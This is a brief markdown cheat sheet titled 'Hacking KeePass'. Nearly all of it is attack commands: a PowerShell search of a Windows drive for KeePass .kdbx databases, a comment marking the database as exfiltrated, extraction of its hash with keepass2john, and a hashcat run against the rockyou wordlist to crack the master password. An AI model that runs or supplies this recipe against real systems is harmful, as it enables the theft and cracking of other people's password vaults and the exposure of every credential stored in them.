 # Hacking KeePass

KeePass - [https://keepass.info/](https://keepass.info/) 
```powershell
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
# Exfiltrated
keepass2john Database.kdbx > keepass.hash
# And crack with Hashcat
hashcat -m 13400 keepass.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule --force
```

## References

[https://keepass.info/](https://keepass.info/) 